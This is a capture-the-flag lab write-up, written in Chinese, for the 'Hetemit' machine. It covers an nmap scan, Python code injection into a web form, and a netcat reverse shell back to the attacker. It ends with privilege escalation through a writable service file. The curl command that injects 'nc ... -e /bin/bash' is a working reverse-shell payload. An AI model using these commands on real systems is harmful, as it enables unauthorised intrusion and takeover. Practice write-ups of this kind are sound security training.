




# Hetemit

### Nmap Scaning 

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A 192.168.169.117 -p-

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.156
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open  ssh         OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 b1:e2:9d:f1:f8:10:db:a5:aa:5a:22:94:e8:92:61:65 (RSA)
|   256 74:dd:fa:f2:51:dd:74:38:2b:b2:ec:82:e5:91:82:28 (ECDSA)
|_  256 48:bc:9d:eb:bd:4d:ac:b3:0b:5d:67:da:56:54:2b:a0 (ED25519)
80/tcp    open  http        Apache httpd 2.4.37 ((centos))
|_http-title: CentOS \xE6\x8F\x90\xE4\xBE\x9B\xE7\x9A\x84 Apache HTTP \xE6\x9C\x8D\xE5\x8A\xA1\xE5\x99\xA8\xE6\xB5\x8B\xE8\xAF\x95\xE9\xA1\xB5
|_http-server-header: Apache/2.4.37 (centos)
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
18000/tcp open  biimenu?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 3102
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C52F24;
|     padding: 0.5em 1.5em;
|     margin: 0.2em 0;
|     line-height: 1.1em;
|     font-size: 2em;
|     color: #C52F24;
|     line-height: 25px;
|     .details {
|_    bord
50000/tcp open  http        Werkzeug httpd 1.0.1 (Python 3.6.8)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.8
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

```

### Access port 5000

連線至 port 5000 可以看到有兩個連結


第二個 verify 是POST的方式，data 為 `code`


### Reverse to Kali and get flag 1

透過 Nmap 可以發現 port 5000 是一個 python 建立的網站，經過嘗試發現可以注入 python 指令，透過指令建立 reverse shell 連線回 Kali（選 port 18000 是因為 Nmap 掃描後發現它是有開啟的狀態）
```shell
┌──(kali㉿kali)-[~]
└─$ curl -X  post -d 'code=os.system("nc 192.168.45.156 18000 -e /bin/bash")' http://192.168.169.117:50000/verify

```
經測試確認 reverse shell 成功，User 為 cmeeks，順利取下第一個flag
```shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 18000
listening on [any] 18000 ...
connect to [192.168.45.156] from (UNKNOWN) [192.168.169.117] 42874
whoami
cmeeks
id
uid=1000(cmeeks) gid=1000(cmeeks) groups=1000(cmeeks)
pwd
/home/cmeeks/restjson_hetemit
cd ..   
ls
local.txt
register_hetemit
restjson_hetemit
share
cat local.txt
```

### Privilege escalation

現在要嘗試提權，我改用一個介面比較好用的 reverse shell 監聽器，叫做 [Penelope](https://github.com/brightio/penelope)，重新接上靶機
```shell
┌──(kali㉿kali)-[~/penelope]
└─$ python penelope.py                                       
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.64.2 • 172.17.0.1 • 192.168.45.156
➤  💀 Show Payloads (p) 🏠 Main Menu (m) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[!] Stopping Listener(0.0.0.0:4444)
                                                                                                      
┌──(kali㉿kali)-[~/penelope]
└─$ python penelope.py 18000
[+] Listening for reverse shells on 0.0.0.0:18000 →  127.0.0.1 • 192.168.64.2 • 172.17.0.1 • 192.168.45.156                                                                                                 
➤  💀 Show Payloads (p) 🏠 Main Menu (m) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from 🐧 192.168.169.117 😍 - Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/192.168.169.117/192.168.169.117.log 📜
[cmeeks@hetemit restjson_hetemit]$ 
```

將 linpeas.sh 傳上去並執行，尋找報告中相關的漏洞，可以看到有一個跟 python server 有關的漏洞，我們可以以系統管理員的權限去修改它。

使用 Nano 編輯，並將 User 改為 root


